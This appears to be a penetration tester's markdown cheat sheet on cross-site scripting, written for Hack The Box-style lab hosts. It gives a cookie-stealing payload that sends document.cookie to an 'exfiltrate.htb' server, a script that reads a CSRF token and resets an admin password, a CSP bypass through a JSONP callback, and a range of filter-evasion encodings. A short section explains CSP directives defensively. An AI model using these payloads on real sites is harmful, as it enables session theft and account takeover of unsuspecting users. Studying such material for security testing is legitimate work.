 # XSS

## XSS via window.location
1. Identify XSS vuln and paste such payload
```html
<script src="http://exploit.server/payload"></script>
```
2. In exploit server create such js-script
```javascript
window.location = "http://exfiltrate.htb/cookiestealer?c=" + document.cookie;
```
3. On `exfiltrate.htb` get cookies from logs.



## Reading CSRF token from response during XSS
```javascript
// GET CSRF token
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

// change PW
var csrf_req = new XMLHttpRequest();
var params = `username=admin&email=admin@vulnerablesite.htb&password=pwned&csrf_token=${csrftoken}`;
csrf_req.open('POST', '/home.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```

## CSP
### common directives
- **style-src**: allowed origins for stylesheets
- **img-src**: allowed origins for images
- **object-src**: allowed origins for objects such as `<object>` or `<embed>`
- **connect-src**: allowed origins for HTTP requests from scripts. For instance, using XMLHttpRequest
- **default-src**: fallback value if a different directive is not explicitly set. For instance, if the img-src is not present in the CSP, the browser will use this value instead for images
- **frame-ancestors**: origins allowed to frame the page, for instance, in an `<iframe>`. This can be used to prevent Clickjacking attacks
- **form-action**: origins allowed for form submissions

### values for directives include
- **\***: All origins are allowed
- **'none'**: No origins are allowed
- **\*.benignsite.htb**: All subdomains of benignsite.htb are allowed
- **unsafe-inline**: Allow inline elements
- **unsafe-eval**: Allow dynamic code evaluation such as JavaScript's eval function
- **sha256-407e1bf4a1472948aa7b15cafa752fcf8e90710833da8a59dd8ef8e7fe56f22d**: Allow an element by hash
- **nonce-S0meR4nd0mN0nC3**: Allow an element by nonce

### A good baseline CSP
```http
Content-Security-Policy: default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self'; frame-ancestors 'self'; form-action 'self';
```
This CSP only allows the loading of images, stylesheets, and scripts from the same origin, only allows HTTP requests from JavaScript and form submissions to the same origin, only allows the same origin to frame the web page, and prevents any other resource from loading. The CSP needs to be adjusted accordingly if any external resources are used.

### Bypass CSP
```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
```

## XSS Payloads
Using pseudoprotocols `data` and `javascript`
```html
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

<svg/onload=alert(1)>
<script/src="http://exploit.htb/exploit"></script>
```

## Advanced Bypasse
`alert(1)`
```js
# Unicode
"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"

# Octal Encoding
"\141\154\145\162\164\50\61\51"

# Hex Encoding
"\x61\x6c\x65\x72\x74\x28\x31\x29"

# Base64 Encoding
atob("YWxlcnQoMSk=")

# String.fromCharCode
String.fromCharCode(97,108,101,114,116,40,49,41)

# .source
/alert(1)/.source

# URL Encoding
decodeURI(/alert(%22xss%22)/.source)

eval("alert(1)")
setTimeout("alert(1)")
setInterval("alert(1)")
Function("alert(1)")()
[].constructor.constructor(alert(1))()

eval("\141\154\145\162\164\50\61\51")
setTimeout(String.fromCharCode(97,108,101,114,116,40,49,41))
Function(atob("YWxlcnQoMSk="))()
```

## Resources
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
- https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md
- https://html5sec.org/
- https://github.com/zigoo0/JSONBee


